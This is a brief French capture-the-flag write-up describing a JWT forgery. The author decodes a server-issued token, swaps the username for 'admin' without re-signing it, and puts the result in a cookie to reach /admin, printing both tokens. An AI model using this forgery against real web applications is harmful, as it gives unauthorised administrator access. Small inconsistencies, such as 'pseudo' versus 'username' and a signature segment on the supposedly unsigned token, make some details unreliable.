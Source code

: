 # Write-up

Créer un JWT avec le pseudo de la persone : `{"pseudo": "drachh"}`. On reçoit la réponse du serveur avec le token signé.

```json
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImRyYWNoaCIsImV4cCI6MTc0MTY0MDgwNX0.iQ5h9h2CDbKq7R6a4XxUKr3cNJQ6BLrZtH7ulsqzdT0"
}
```

On peut utiliser un outil comme `jwt.io` pour décoder le token et voir la payload.

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "drachh",
  "exp": 1741640805
}
```

On remplace le `username` par `admin` et sans signer le token. On obtient le token suivant :

```plaintext
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzQxNjQwODA1fQ.3b6LbAFqkRi57O1FpD6P3QHWUjbLJzfr6FveNaPHGqw
```

On modifie le token dans les cookies du navigateur et on visite la page `/admin` pour obtenir le flag.
